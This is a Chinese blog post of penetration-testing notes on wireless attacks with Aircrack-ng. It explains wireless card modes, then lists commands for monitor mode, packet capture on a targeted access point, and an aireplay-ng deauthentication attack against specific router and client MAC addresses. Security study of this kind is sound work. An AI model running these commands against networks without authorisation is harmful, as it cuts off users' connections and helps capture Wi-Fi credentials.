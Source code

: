 ```yaml
---
title: "无线渗透笔记"
date: 2019-07-14 23:51:41
urlname: wireless-pentest-note
categories: 信息安全
tags:
  - Wireless
  - Kali Linux
  - Pentest
---
```


{% noteblock quote cyan %}

使用 Aircrack-ng 套件进行无线攻击测试。

{% endnoteblock %}

<!-- more -->

## 无线监听

### 技术原理

#### 无线网卡的四种工作模式

- Managed：用于设备与 AP 直接连接， **无线网卡的驱动程序依赖无线 AP 管理整个通信过程。**

- Ad hoc：当你的网络由**互相直连的设备组成**时，就使用这个模式。在这个模式中，无线通信双方共同承担 WAP 的职责。

- Master：主模式，允许无线网卡使用特制的驱动程序和软件工作，作为其他设备的 WAP。

- Monitor：监听模式，停止收发数据，监听无线数据包。

### 执行步骤

#### 切换为监听模式

- 启动 Airmon-ng：

  ```shell
  iwconfig
  airmon-ng start wlx70f11c280f23	# airmon-ng start wlan0
  ```

- 关闭 Network Manager：

  ```shell
  service network-manager stop
  ```

- 开启 Network Manager：

  ```shell
  service network-manager restart
  ```

#### 开启监听

- 使用 Airodump-ng：

  ```shell
  airodump-ng wlan0mon
  ```

#### 捕获数据

- Wireshark：选择监听网卡捕获数据

- Airodump-ng：

  ```shell
  airodump-ng -c 1 wlan0mon -w data	# -c 信道 -w 输出目录名
  ```

## WiFi Crack

### 开启监听

```shell
airmon-ng start wlan0
```

### 扫描信号

```shell
airodump-ng wlan0mon
```

### 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w 指定生成的文件名 -c 指定信道 --bssid 指定路由器的 MAC 地址
```

### 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0 指定发包的数量 -a 指定路由器的MAC地址  -c 指定连接的客户端的 MAC 地址
```

